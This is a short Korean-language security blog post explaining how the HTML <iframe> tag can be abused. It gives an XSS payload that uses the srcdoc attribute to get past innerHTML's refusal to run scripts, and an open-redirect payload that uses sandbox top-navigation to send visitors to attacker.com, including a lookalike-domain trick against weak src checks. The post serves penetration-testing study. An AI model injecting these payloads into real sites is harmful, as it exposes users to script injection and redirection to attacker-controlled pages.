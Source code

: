 ```yaml
---
layout: post
title: <iframe>
subtitle: 제일 취약하다고 생각하는 태그에 대한 나름의 분석
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - XSS
  - iframe
  - Open_Redirect
  - innerHTML
sidebar:
---
```

## Intro
`<iframe>`은 다른 웹 페이지(HTML)를 사용하기 위한 태그이고, 아직 많이 사용하고 있는 것 같습니다. 특히 youtube를 불러올 때, 많이 쓰는거 같다는 느낌을 받았습니다. [왜 video로 안불러오지....?]        

현 페이지가 보안에 안전한 페이지라도 불러오는 다른 웹 페이지가 안전하지 않다면 현 페이지에도 영향이 가기에 `<iframe>`에 대한 저의 인식은 취약한 태그로 자리잡고 있습니다.    

이 글에서 다양한 보안 설정들을 `<iframe>`을 통해 어떻게 우회? 및 공격할 수 있는지 적어두려고 합니다.   
## Detect & Exploit 
### Detect
우선 iframe 태그를 삽입할 수 있는 지 파악해주시면 됩니다.   
### Exploit

#### InnerHTML 우회
[MDN InnerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)문서를 보면 InnerHTML로 `<script>` 삽입 시 실행이 되지 않는다고 되어 있습니다. 저도 진단하면서 간혹 태그는 정상적으로 들어가지만, 실행이 안됐던 적이 있었는데 `<iframe>`을 통해 우회가 가능합니다.   
☑️물론 `<script>`가 삽입되는 곳이라면 다른 편한 방법이 있을 것입니다.   
```HTML
#srcdoc 속성을 이용한 태그 삽입
<iframe srcdoc="<script>alert()</script>">
```
#### Open Redirect
 iframe의 sandbox 속성을 이용하면 부모 창을 제어할 수 있습니다.   
```HTML
#webhook 
<script>window.top.location = https://attacker.com</script>

#victim site
<iframe src="https://webhook.site/~~" sandbox="allow-top-navigation allow-scripts">

#잘못된 src 검증 로직일 경우
<iframe src="https://www.youtube.com.webhook.site/~~" sandbox="allow-top-navigation allow-scripts">
```

## References
[`<iframe>`-MDN](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)   
[JSONP Payload](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) JSONP 다룰 때 옮길예정
